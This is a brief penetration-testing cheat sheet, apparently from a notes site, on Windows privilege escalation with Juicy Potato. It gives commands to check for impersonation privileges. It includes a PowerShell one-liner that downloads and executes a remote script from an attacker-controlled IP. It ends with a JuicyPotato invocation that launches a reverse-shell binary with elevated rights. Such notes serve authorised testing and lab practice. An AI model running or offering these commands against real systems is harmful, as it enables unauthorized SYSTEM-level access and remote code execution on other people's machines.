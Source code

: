```yaml
---
description: Potato yummy
---
```


# Potatoes

Enumerate either the`SeImpersonate` or `SeAssignPrimaryToken` privileges

```bash
whoami /priv
```

After identifying the appropriate privileges, upload the [Juicy Potato binary](https://github.com/ohpe/juicy-potato) to the host. Then run the following command to enumerate valid CLSID's for use with JuicyPotato&#x20;

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://[IP]/GetCLSID.ps1')
```

After enumerating a valid CLSID we can run the following command:&#x20;

```powershell
.\Juicy.exe -t t -p C:\Windows\Tasks\reverse.exe -l 5837 -c {bb6df56b-cace-11dc-9992-0019b93a3a84}
```
